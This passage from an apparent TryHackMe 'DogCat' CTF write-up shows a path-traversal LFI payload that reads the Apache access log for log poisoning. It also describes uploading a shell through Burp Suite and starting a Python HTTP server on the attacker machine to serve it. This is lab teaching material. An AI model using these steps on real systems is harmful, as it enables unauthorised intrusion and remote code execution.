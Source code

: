 now we can do log poisoning with LFI, you can read about that here [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

`?view=dog/../../../../../../../var/log/apache2/access.log&ext=`

![Desktop View](/assets/img/sample/DogCat/7.png)

I'm used burpsuit to upload shell 

Before you intercept , Create python server in your shell folder 

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/DogCat# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

![Desktop View](/assets/img/sample/DogCat/8.png)
